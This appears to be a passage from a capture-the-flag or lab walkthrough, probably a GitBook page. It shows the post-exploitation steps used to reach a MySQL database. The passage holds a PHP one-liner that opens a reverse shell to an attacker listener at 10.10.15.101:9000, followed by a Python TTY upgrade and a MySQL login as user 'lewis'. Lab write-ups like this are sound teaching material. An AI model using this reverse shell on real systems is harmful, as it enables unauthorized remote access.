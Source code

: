 <figure><img src="../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

We need to spawn a reverse shell in order to have a semi-TTY and interact with MySQL database:

```bash
php -r '$sock=fsockopen("10.10.15.101",9000);exec("sh <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

Enumerate on MySQL:

```bash
mysql -u lewis -p
```
